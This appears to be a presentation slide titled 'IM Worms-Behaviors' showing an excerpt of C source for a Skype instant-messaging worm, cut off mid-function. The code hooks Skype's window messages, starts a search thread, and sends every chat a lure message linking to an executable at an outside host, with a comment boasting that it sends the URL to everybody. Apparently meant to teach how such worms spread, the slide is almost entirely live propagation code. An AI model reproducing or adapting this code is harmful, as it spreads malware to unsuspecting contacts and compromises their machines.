

IM Worms-Behaviors
LRESULT CALLBACK SkypeProc(HWND hWnd, UINT uMsg, WPARAM wParam, LPARAM lParam)
{
	PCOPYDATASTRUCT SkypeData = NULL;
	DWORD ThreadID;
	char *found_users = NULL,*chat_cmd = NULL,*chat_id = NULL,msg_cmd[256];
	COPYDATASTRUCT cds;

	if(uMsg == SkypeAttach)
	{
		if(lParam == 0)
		{
		    SkypeWnd = (HWND)wParam;
		    CreateThread(NULL,0,&S3arch,0,0,&ThreadID);
		}
	}

                     if(uMsg == WM_COPYDATA)
	{
		  if(wParam == SkypeWnd)
		  {
			SkypeData=(PCOPYDATASTRUCT)lParam;

			if(SkypeData != NULL)
			{

				if(strstr(SkypeData->lpData,"CHAT "))
				{
					strtok(SkypeData->lpData," ");
					chat_id = strtok(NULL," ");
					/* this will send the url to everybody :) */
					sprintf(msg_cmd,"CHATMESSAGE %s Check this! http://marx2.altervista.org/surprise.exe",chat_id);

					cds.dwData= 0;
                    				                     cds.lpData= msg_cmd;
                                                                                                       cds.cbData= strlen(msg_cmd)+1;
	                                                                                  SendMessage(SkypeWnd, WM_COPYDATA, Answer , (LPARAM)&cds);
				}